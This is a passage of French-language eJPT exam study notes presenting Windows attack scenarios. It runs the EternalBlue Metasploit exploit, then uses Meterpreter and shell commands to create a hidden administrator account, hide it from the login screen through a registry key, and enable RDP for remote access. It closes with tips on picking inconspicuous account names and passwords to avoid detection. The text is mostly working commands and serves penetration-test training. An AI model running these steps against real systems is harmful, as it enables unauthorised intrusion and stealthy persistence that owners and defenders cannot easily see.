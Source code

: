 ### Scénario 2: SMB → User Persistence
```bash
# 1. EternalBlue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target; set LHOST attacker; exploit

# 2. Migration + getgui
ps -S explorer.exe; migrate <pid>
run getgui -e -u backup -p Password123

# 3. Accès RDP
xfreerdp /u:backup /p:Password123 /v:target
```

### Scénario 3: Création manuelle après shell
```bash
# Si pas de Meterpreter, création manuelle
# 1. Dans shell Windows
net user hacker Pass123! /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /add

# 2. Masquer utilisateur
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v hacker /t REG_DWORD /d 0

# 3. Activer RDP
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0
```

---

## 💡 10. Conseils et astuces eJPT

### Points critiques pour l'exam
- ✅ **Migration obligatoire** pour stabilité
- ✅ **Tester connexion RDP** après création
- ✅ **Utilisateur vraiment caché** de l'écran login
- ✅ **Privilèges administrateur** confirmés
- ✅ **Documenter credentials** créés

### Erreurs courantes à éviter
- ❌ **Pas de migration** → Session instable
- ❌ **Utilisateur non masqué** → Visible au login
- ❌ **RDP non activé** → Connexion impossible
- ❌ **Mot de passe faible** → Détection facile
- ❌ **Nom suspect** → alice, hacker, backdoor

### Optimisations eJPT
```bash
# Noms d'utilisateurs discrets
run getgui -e -u support -p Help123!
run getgui -e -u backup -p Backup2023
run getgui -e -u service -p Service123

# Vérification rapide après création
execute -f net -a "user"               # Voir si user créé
execute -f net -a "localgroup Administrators"  # Voir si dans admin
```
